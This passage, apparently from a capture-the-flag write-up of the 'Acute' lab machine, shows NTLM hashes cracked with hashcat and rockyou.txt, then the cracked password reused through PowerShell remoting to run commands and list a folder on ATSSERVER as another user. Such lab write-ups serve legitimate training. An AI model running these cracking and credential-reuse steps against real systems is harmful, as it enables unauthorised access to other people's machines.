 

#### Crack

I'll save the hashes to a file, and use `hashcat` to run `rockyou.txt`
over them:



    $ /opt/hashcat-6.2.5/hashcat.bin acute-pc01.hashes /usr/share/wordlists/rockyou.txt
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:

    1000 | NTLM | Operating System
    ...[snip]...
    31d6cfe0d16ae931b73c59d7e0c089c0:                         
    a29f7623fd11550def0192de9246f46b:Password@123  
    ...[snip]...



It cracks the empty password for Guest (normal), and "Password@123" for
Administrator.

### Password Reuse

I'll first test these creds to see if any of the known users can log
into PSWA, but none succeed. I do find that I'm able to run commands on
ATSSERVER as awallace:



    PS C:\Utils> $pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
    PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
    PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami } 
    acute\awallace



## Shell as Site Admin

### Enumeration

With different credentials, I'll try `C:\program files\keepmeon` again,
and awallace can access it:



    PS C:\Utils> Invoke-Command -ScriptBlock { ls '\program files\keepmeon' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

        Directory: C:\program files\keepmeon

    Mode                 LastWriteTime         Length Name                               PSComputerName                    
    ----                 -------------         ------ ----                               --------------                    
    -a----        21/12/2021     14:57            128 keepmeon.bat                       ATSSERVER

